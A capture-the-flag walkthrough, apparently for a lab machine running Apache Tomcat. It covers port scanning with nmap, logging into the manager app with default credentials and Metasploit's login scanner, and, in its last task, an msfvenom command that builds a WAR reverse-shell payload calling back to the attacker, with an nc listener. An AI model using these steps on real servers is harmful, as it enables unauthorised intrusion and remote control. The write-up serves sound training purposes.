### Task1

Which TCP port is open on the remote host?

Run nmap to scan for ports

```nmap -sS -p- <target_ip>```

![alt text](image-j.png)

After scanning, the port 8080 is revelead to be open, where the http-proxy service is running.

### Task 2

Which web server is running on the remote host? Looking for two words.

To find the web server, we need to add the version field on the nmap scan.

```nmap -sV -p 8080 <target_ip>```

![alt text](image-j-1.png)

We see on the version that the web server is **Apache Tomcat**.

### Task 3

Which relative path on the webserver leads to the Web Application Manager?

Open a browser and navigate to the ip address of the target. Remember to specify the port to be 8080.

Take a look at the page, to see you can find anything useful. Under **Managing Tomcat** you see a URL to **manager webapp** which might be what is refered as Web Application Manager. It is stated that for security, access is restricted and users are defined in **$CATALINA_HOME/conf/tomcat-users.xml**. This seems like an interesting information, but let's first see what the URL gets us. When clicking we get redirected to **/manager/html** where we are asked to input our credential. This is a point we should keep in mind, but for now we got the relative path the question is asking for.

### Task 4

What is the valid username and password combination for authenticating into the Tomcat Web Application Manager? Give the answer in the format of username:password

On the previous step, we navigated to the **/manager/html** were we were asked for credentials. Since we were not able to authenticate, we show an example in the page of how to add a role to a user for accesssing the manager application. We can try to use those example credentials and see if they work on the login prompt, and they do!

![alt text](image-j-6.png)

Another approach to this, is using **Metasploit Framework**. First, run ```msfconsole``` and then ```search tomcat```. There you will find the auxiliary **auxiliary/scanner/http/tomcat_mgr_login** which will attempt to login based on a list of username - password names. To use it, run ```use <number_of_option>``` and then to see what you it is required for you to set ```show options```. 

To select the target IP address and the port, run ```set RHOSTS <target_ip>``` and ```set RPORT <target_port>```. Then type ```run``` and you will see that a login attempt was succesfull! As seen, those are the same credentials that were found before. 

![alt text](image-j-7.png)

### Task 5

Which file type can be uploaded and deployed on the server using the Tomcat Web Application Manager?

After authenticating in the previous page, you will see this part in the Web Application Manager page:

![alt text](image-j-3.png)

We can see that the file type is **WAR**. 

### Task 6

Submit the flag located on the user's desktop.

From the previous task, we realised we would be able to upload a war file, which smells like a backdoor we could use for remote code execution. A war file is used to deploy java based applications and we can use it to deploy a reverse shell and gain remote access to the target system. 

We can generate a war file using msfvenom 

```msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f war > shell.war```

An open the port that was specified so we can listen to the connection from the target

```sudo nc -lvnp <your_port>```

Then we navigate to the manager page and upload the war payload. 
On the list of applications we can see our deployment 

![alt text](image-j-8.png)

Then we can navigate to the **/shell** path and on our temrminal that we opened the port we can see are connected!

![alt text](image-j-9.png)

Navigating to the directory **\Users\Administrator\Desktop** and lisitng the direcrtories, we find a folder named flags. 

![alt text](image-j-10.png)

Running ```type "2 for the price of 1.txt"``` we get both the user and the root flags.